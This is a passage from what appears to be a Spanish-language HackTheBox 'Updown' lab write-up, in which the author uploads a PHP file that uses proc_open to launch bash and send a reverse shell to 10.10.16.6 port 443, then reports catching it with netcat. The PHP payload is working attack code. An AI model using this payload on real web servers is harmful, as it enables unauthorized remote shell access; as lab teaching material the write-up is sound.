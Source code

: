 Como sí que lo interpreta podría intentar subir un archivo php que defina una propia función para entablar la reverse shell.

En la web de PHP, explican como crear una [función proc-open](https://www.php.net/manual/en/function.proc-open.php)

Ahí, el comando final está en PHP, pero como eso es justamente lo que quiero evitar, cambio el intérprete por una bash, y me envío la reverse shell

```null
<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);

$cwd = '/tmp';
$env = array('some_option' => 'aeiou');

$process = proc_open('bash', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt

    fwrite($pipes[0], 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "command returned $return_value\n";
}
?>
```

Lo subo, apunto al archivo como antes y gano acceso por netcat

<img src="/writeups/assets/img/Updown-htb/12.png" alt="">
